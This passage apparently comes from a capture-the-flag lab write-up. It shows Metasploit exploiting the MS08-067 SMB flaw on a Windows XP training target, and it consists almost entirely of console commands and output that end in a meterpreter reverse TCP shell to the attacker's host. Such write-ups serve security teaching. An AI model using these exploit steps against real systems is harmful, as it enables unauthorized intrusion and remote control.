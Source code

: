 We will use MetaSploit :

```bash
msfconsole -q
```

```text
[msf](Jobs:0 Agents:0) >> search ms08-067
[msf](Jobs:0 Agents:0) >> use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/met
                                       asploit-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process,
                                        none)
   LHOST     192.168.8.28     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```

Configure :

```text
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set LHOST 10.10.14.18
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set RHOSTS 10.10.10.4
```

Confirm the vulnerability :

```text
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> check
[+] 10.10.10.4:445 - The target is vulnerable.
```

Exploit :

```text
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> exploit

[*] Started reverse TCP handler on 10.10.14.18:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.18:4444 -> 10.10.10.4:1031 ) at 2022-04-10 21:13:17 +0200
```
